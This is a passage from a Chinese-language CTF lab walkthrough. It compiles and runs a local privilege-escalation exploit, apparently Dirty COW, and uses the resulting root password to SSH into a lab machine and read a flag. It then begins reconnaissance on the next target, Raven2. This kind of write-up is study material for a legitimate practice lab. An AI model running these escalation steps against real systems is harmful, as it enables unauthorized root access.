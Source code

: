 ```
g++ -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil

./40847   #这个是-o 后面的那个名字，可自定义
```

解释：

- **-O2** ：表示编译器的优化选项，
- **-std=c++11**：表示按照c++ 2011标准来编译，
- **-pthread** ：是指利用到多线程时需要用到的库(我也不知道为啥要加上这个参数，希望评论区有大神能指出)
- **-o name** ：中name表示生成的文件的名字

![image-20220228135217088](https://gitee.com/xxb667/img/raw/master/img/image-20220228135217088.png)

## 3.4 获取root权限

获取到了root的密码：

```
dirtyCowFun
```

再利用ssh登录：

```
ssh root@192.168.81.139  
```

发现登陆后已经是root了

![image-20220228135624966](https://gitee.com/xxb667/img/raw/master/img/image-20220228135624966.png)

### 找到flag.txt文件

内容如下：

```
9740616875908d91ddcdaa8aea3af366
```

![image-20220228135759814](https://gitee.com/xxb667/img/raw/master/img/image-20220228135759814.png)

# 第2天 Raven2

https://www.freebuf.com/articles/web/261047.html

# 1 信息搜集

## 1.1 获得ip地址

打开kali输入下面的命令

```
netdiscover
```
